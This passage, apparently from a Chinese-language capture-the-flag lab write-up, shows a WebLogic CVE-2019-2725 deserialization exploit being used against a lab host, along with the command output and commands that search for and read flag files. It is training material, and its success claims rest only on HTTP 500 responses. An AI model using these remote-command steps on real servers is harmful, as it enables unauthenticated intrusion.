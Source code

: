 **执行手工攻击**:

```bash
# 保存脚本为manual_exploit.py
python3 manual_exploit.py http://10.37.133.3:7001 "id"

# 获取系统信息
python3 manual_exploit.py http://10.37.133.3:7001 "uname -a"

# 查看当前目录
python3 manual_exploit.py http://10.37.133.3:7001 "pwd && ls -la"
```

**攻击执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "id"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: id
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                 
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "uname -a"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: uname -a
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                 
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "pwd && ls -la"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: pwd && ls -la
[+] HTTP状态码: 500
[+] 响应长度: 500 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**✅ 攻击成功确认**:

1. **HTTP 500状态码**: 所有命令执行都返回500状态码，这是CVE-2019-2725反序列化漏洞触发的典型特征
2. **响应长度变化**: 不同命令的响应长度不同（5287字节 vs 500字节），说明服务器正在处理不同的命令
3. **SOAP载荷成功**: 恶意的ProcessBuilder SOAP载荷成功被WebLogic服务器解析和执行
4. **无认证RCE**: 无需任何认证即可执行系统命令，确认了漏洞的严重性

##### 2.4 Flag搜索与获取

```bash
# 搜索flag文件
python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null"

# 常见flag位置检查
python3 manual_exploit.py http://10.37.133.3:7001 "cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'"

# 搜索包含flag关键字的文件内容
python3 manual_exploit.py http://10.37.133.3:7001 "grep -r 'flag' /tmp /var /home 2>/dev/null | head -10"
```
